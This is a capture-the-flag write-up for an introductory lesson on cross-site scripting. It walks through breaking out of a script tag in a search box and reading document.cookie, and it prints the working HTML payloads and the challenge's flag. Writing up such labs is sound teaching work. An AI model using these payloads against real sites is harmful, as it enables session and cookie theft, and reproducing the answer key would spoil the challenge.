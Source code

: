 # Lesson 9: XSS

> Lesson Link:\
> *[https://cybertalents.com/learn/introduction-to-cybersecurity/lessons/9-xss](https://cybertalents.com/learn/introduction-to-cybersecurity/lessons/9-xss)*

## Introduction

In this lesson, we will learn about XSS, how to exploit it, and how to prevent it.

## Challenge

> Name:\
> *Searching for the cookie.*

---

> Description:\
> *simple search website we need to know which cookie to eat ;)*

## Solution

In this challenge, we have a simple search website, it has a search box, and when we search for something, it will return the search results.

Now, we need to find a way to get the cookie, so we can do that by using `XSS`.

so, we will try to inject some `XSS` payload in the search box, like this:

```html
<script>alert("xss")</script>
```

and nothing happened, if we took a look at the source code, we will find this line:

```html
    <script>var currentSearch = {'keyword':'you searched for: <script>alert("xss")</script>'};</script>
```

so, we might try to close the `script` tag before the `alert` function, like this:

```html
</script> <script>alert("xss")</script>
```

and we will get an alert that tells us `xss`.

so, we can try to get the cookie by using `document.cookie`, like this:

```html
</script> <script>alert(document.cookie)</script>
```

and we will get an alert that tells us the cookie. like this:

```html
x=try+to+execute+some+js+; flag=coolcookie112
```

## Flag

> coolcookie112

## References

- [https://www.w3schools.com/jsref/prop_doc_cookie.asp](https://www.w3schools.com/jsref/prop_doc_cookie.asp)

- [https://portswigger.net/web-security/cross-site-scripting](https://portswigger.net/web-security/cross-site-scripting)
